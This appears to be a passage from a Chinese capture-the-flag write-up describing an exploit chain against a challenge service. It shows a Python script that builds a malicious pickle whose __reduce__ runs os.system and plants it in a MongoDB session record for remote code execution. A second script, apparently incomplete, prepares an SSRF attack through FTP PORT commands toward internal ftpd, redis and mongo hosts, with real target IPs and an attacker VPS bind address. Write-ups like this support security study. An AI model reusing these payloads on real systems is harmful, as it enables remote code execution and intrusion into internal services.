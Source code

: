 我的办法比较脏，但是也比较好玩。众所周知python啥都能干，比如pymongo。然而pymongo是主动去连服务器的，怎么获取到数据包本身呢？  
改代码呗，去`site-packages/pymongo/network.py:142`，在sendall之前丢  个  异  常

{% asset_img exception.png 我看是你脑子有异常 %}

然后就可以愉快地拿到mongo请求了。  
只是有一点要注意，下面这个脚本跑的时候在localhost也得启动一个mongo实例/docker，不然pymongo发别的ping包之类的会阻塞。

```python
from pymongo import MongoClient
import pickle
import os

def get_pickle(cmd):
    class exp(object):
        def __reduce__(self):
            return (os.system, (cmd,))
    return pickle.dumps(exp())

def get_mongo(cmd):
    client = MongoClient('localhost', 27017)
    coll = client.admin.sessions
    try:
        coll.update_one(
            {'id':'session:37386ce1-3fe8-4f1d-91fc-224581c5279f'},
            {"$set": { "val": get_pickle(cmd) }},
            upsert=True
        )
    except Exception as e:
        return e.message

if __name__ == '__main__':
    print(get_mongo('ls'))
```

{% spoiler 剩下的exploit %}

```python
from base64 import b64decode
import requests
import socket
import string
import random
import threading


def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])


def get_port_cmd(host):
    host, port = host.split(':')
    port = int(port)
    return 'PORT ' + ','.join(host.split('.') + [str(port // 256), str(port - port // 256 * 256)])


a = 'http://52.163.52.206:8088'
a = 'http://23.98.68.11:8088'

ftpd = '172.20.0.2:8877'
redis = '172.20.0.4:6379'
mongo = '172.20.0.5:27017'

bind = 'vps_ip:2334'
targ = mongo
```